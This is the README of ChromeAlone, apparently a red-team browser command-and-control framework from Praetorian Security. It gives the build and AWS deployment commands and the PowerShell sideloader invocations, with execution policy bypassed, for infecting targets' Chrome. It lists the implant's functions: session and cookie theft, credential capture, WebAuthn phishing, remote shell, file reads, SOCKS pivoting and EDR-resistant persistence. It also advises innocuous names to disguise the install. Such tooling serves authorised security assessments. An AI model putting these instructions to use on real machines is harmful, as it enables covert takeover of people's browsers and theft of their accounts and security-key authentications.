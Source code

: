 # ChromeAlone - A Browser C2 Framework

![Architecture Diagram](BATTLEPLAN.png)

# What does this get me?
ChromeAlone is a browser implant that can be used in place of conventional implants like Cobalt Strike or Meterpreter. This repo provides a simple build process that will generate a management console, deploy infrastructure, and create a powershell sideloader script to run on targets. 

After installation, each ChromeAlone implant will provide mechanisms for:

* Providing a SOCKS TCP Proxy on the host
* Browser session stealing and credential capture
* Launching executables on the host from Chrome
* Phishing for WebAuthn requests for physical security tokens like YubiKeys or Titan Security Keys.
* An EDR resistant form of persistence on host that is implemented entirely with Chromium's built-in features.

# Build Instructions

First build the docker container: `docker build -t chromealone .`

## Deployment Instructions

There are currently two supported deployment modes. Note that in either case, you should be running `docker` from the base directory of the ChromeAlone git repository.

### Deployment from scratch via AWS

For this you'll need to have an AWS account configured with your credentials stored in `~/.aws/credentials`. Make sure your account has full EC2 write permissions along with Route53 permissions. Additionally it's assumed that your Route53 has been configured with at least 1 hosting zone containing a registered domain. If these conditions are met, then you can run:

```
docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --domain=sendmea.click --appname=UpdateService
```

The `domain` value should match a domain under the control of your Route53 setup. `appname` can be whatever value you want, and will be used for naming several registry keys and folders on disk when deploying. It is recommended to use a fairly benign name like `UpdateService` or something equally innocuous.

This will deploy the BATTLEPLAN relay server to AWS and generate the following artifacts:

`output/client` - The control webapp to manage your ChromeAlone installs.

`output/sideloader.ps1` - The installation script to run on targets to infect their local browser instance. NOTE: There will also be an `iwa-sideloader.ps1` file for loading ONLY the Isolated Web App, and 
`extension-sideloader.ps1` for loading ONLY the browser extension.

`output/extension` - The generated malicious browser extension.

`output/iwa` - The generated malicious Isolated Web App signed webapp bundle file.

`output/relay-deployment` - Terraform artifacts from your AWS deployment including an SSH key for directly accessing the host.

### Generate Deployment scripts from an existing server deployment

If you've already deployed an instance, `output/relay-deployment/terraform.tfvars` will contain all the information necessary to generate new sideloader scripts + malicious extensions. You can point the ChromeAlone docker file at the `tfvars` file and it will skip the deployment step while maintaining the appropriate metadata to handle connections.

Run the build script `docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --tfvars=/project/path/to/terraform.tfvars --appname=UpdateService` and it will generate a new malicious sideloader for your deployment.

## Installing on Hosts

Take `sideloader.ps1` and execute it on your target Windows 10 or Windows 11 machine by running `powershell.exe ExecutionPolicy Bypass -File .\path\to\sideloader.ps1`. Note that you can run with additional flags if you would like to install a NativeMessaging host (required for shelling out) or force chrome to restart (necessary if you want your extension to run immediately after running this script versus waiting for the next time the user opens Chrome). An example invocation with both of these flags is `powershell.exe -ExecutionPolicy Bypass .\sideloader.ps1 -InstallNativeMessagingHost $true -ForceRestart $true`. You can also modify the defaults at the top of the script from `false` to `true` if you wish these flags to automatically be used.

A complete script execution will take roughly 20-30 seconds.

# Operator Instructions

Once ChromeAlone is loaded, you can view any connected hosts by opening `output/client/index.html`. This webapp will be pre-configured to connect back to your deployed BATTLEPLAN relay instance. Note that by default, the relay is firewalled to only allow incoming control access on ports 1080-1181 from the IP that deployed the server. If you wish to modify this, you'll need to update the EC2 instance's network settings to include any additional machines.

Most commands can be run from the WebUI including:

* Dumping history + cookies (via the `Quick Commands` section, which requires selecting a target agent in the `Execute Command` section)
* Capturing Credentials (these will appear via the `Captured Data` tab)
* Forcing WebAuthn requests (via the `Execute Command` section)
* File System reads (via the `File Browser` tab)
* Executing Shell commands (via the `Interactive Shell` tab)

The primary exception to this is SOCKS proxying. Each infected host is assigned a unique SOCKS port for the server that can be seen under the `Agent Information` section, where each agent has a `Port` field. The assigned port, when combined with the `admin` credentials stored in `output/client/config.js` can be used to configure a host specific SOCKS proxy.

For example, say we have an agent where the port is 1081, our domain is `chrome.alone`, our username `admin` (this is always the case), and our password is `thisisnotarealpassword`. Here are some example usages:

```
proxychains -q socks5 admin:thisisnotarealpassword@chrome.alone:1081 curl http://ifconfig.me
xfreerdp /cert:ignore /v:<target RDP host> /u:<target RDP username> /proxy:socks5://admin:thisisnotarealpassword@chrome.alone:1081
curl -x socks5h://chrome.alone:1081 -u "admin:thisisnotarealpassword" http://ifconfig.me
```

# What's in this Repository?

The ChromeAlone repository is broken down into components, many of which could be used individually as part of an assessment - but together represent the entire Chromium browser implant toolchain.

* `BATTLEPLAN` - This is the management server component of the toolchain. It contains terraform scripts for deploying to an AWS environment as well as an HTML client for interacting with the server post deployment.
* `BLOWTORCH` - This is a malicious Isolated Web Application which uses `Direct Socket` permissions to implement a SOCKS TCP proxy and websocket server to enable communications between other chrome components. It also acts as the messaging bridge back to the `BATTLEPLAN` relay server.
* `DOORKNOB` - This is a series of scripts used for generating powershell sideloaders for Isolated Web Apps and Chrome Extensions. The script in `build.sh` provides an example of how to create a single Powershell installer script that combines both of theses individual sideloaders into one.
* `HOTWHEELS` - This is a malicious Chrome extension that implements all of its capabilities in Web Assembly. It provides the vast majority of ChromeAlone's feature sets for credential capture, session hijacking, shelling out, and reading the file system.
* `PAINTBUCKET` - A series of content scripts that enable phishing for WebAuthn requests by hiding additional WebAuthn requests within iFrames in inactive tabs whenever a normal WebAuthn request is made.

# Who made this?

This tool has been written by [Mike Weber](https://www.linkedin.com/in/michael-weber-6a466517/) of Praetorian Security.

# License

ChromeAlone is licensed under the Apache License, Version 2.0.

```
Copyright 2025 Praetorian Security, Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
```
